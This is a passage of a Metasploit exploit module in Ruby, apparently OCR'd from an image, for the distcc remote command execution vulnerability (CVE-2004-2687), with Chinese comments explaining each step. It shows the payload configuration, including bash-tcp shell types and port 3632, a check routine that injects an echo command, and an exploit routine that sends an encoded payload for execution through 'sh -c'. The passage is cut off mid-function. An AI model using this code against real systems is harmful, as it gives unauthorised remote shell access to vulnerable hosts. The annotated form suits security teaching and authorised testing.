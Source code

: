 ```
        [
          [ 'CVE', '2004-2687'],
          [ 'OSVDB', '13378' ],
          [ 'URL', 'http://distcc.samba.org/security.html'],

        ],
      'Platform'       => ['unix'],
      'Arch'           => ARCH_CMD,
      'Privileged'     => false,
      'Payload'        =>
        {
          'Space'       => 1024,
          'DisableNops' => true,
          'Compat'      =>
            {
              'PayloadType' => 'cmd cmd_bash',
              'RequiredCmd' => 'generic perl ruby bash telnet openssl bash-tcp',
            }
        },
      'Targets'        =>
        [
          [ 'Automatic Target', { }]
        ],
      'DefaultTarget'  => 0,
      'DisclosureDate' => 'Feb 01 2002'
      ))

      # 默认的配置参数，攻击目标端口号为3632
      register_options(
        [
          Opt::RPORT(3632)
        ], self.class)
  end

  # 检查函数，用来测试目标主机的服务是否具有漏洞
  # 检查的方法是发送一条echo命令看服务返回的结果，如果有返回结果则说明漏洞存在
  def check
    r = rand_text_alphanumeric(10)
    connect
    sock.put(dist_cmd("sh", "-c", "echo #{r}"))

    dtag = rand_text_alphanumeric(10)
    sock.put("DOTI0000000A#{dtag}\n")

    err, out = read_output
    if out.index(r)
      return Exploit::CheckCode::Vulnerable
    end
    return Exploit::CheckCode::Safe
  end

  # 攻击过程
  def exploit
    # 连接目标服务的端口
    connect

    # 构建远程执行的命令，将 payload 放入到执行的脚本中
    distcmd = dist_cmd("sh", "-c", payload.encoded);
    
    # 发送命令到目标服务器
    sock.put(distcmd)
    
    dtag = rand_text_alphanumeric(10)
```
